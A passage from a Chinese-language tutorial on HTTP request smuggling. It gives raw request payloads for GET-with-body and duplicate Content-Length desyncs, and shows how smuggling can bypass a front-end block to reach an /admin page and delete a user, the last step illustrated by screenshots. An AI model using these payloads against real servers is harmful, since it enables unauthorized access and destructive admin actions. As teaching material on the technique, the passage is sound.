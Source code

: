 假设前端代理服务器允许GET请求携带请求体，而后端服务器不允许GET请求携带请求体，它会直接忽略掉GET请求中的Content-Length头，不进行处理。这就有可能导致请求走私。

一般强行加入CL 向应如下
![tNdW9g.png](https://s1.ax1x.com/2020/06/02/tNdW9g.png)

"GET requests cannot contain a body" 不允许有body

构造如下
```
GET / HTTP/1.1
Host: example.com
Content-Length: 44

GET /secret HTTP/1.1
Host: example.com

```
就可以得到 /secret 的响应

## ⑤ CL - CL

某些特殊情况下 服务器按照第一个Content-Length的值对请求进行处理，而后端源站服务器按照第二个Content-Length的值进行处理。
构造如下
```
POST / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 8\r\n
Content-Length: 7\r\n

12345\r\n
a
```

# 三、 应用场景

## ① 绕过前端安全控制
/admin 页面被前端服务器限制访问，通过走私访问admin 页面，并删除某用户

### (1)TE - CL

正常访问
![tUMHgK.png](https://s1.ax1x.com/2020/06/03/tUMHgK.png)


一次访问正常
![tUMkkR.png](https://s1.ax1x.com/2020/06/03/tUMkkR.png)

二次访问到admin 页面 但是提示host 为 localhost
![tUMAt1.png](https://s1.ax1x.com/2020/06/03/tUMAt1.png)

添加host 后访问 删除连接为/admin/delete?username=..
![tUMi79.png](https://s1.ax1x.com/2020/06/03/tUMi79.png)
![tUMM0H.png](https://s1.ax1x.com/2020/06/03/tUMM0H.png)
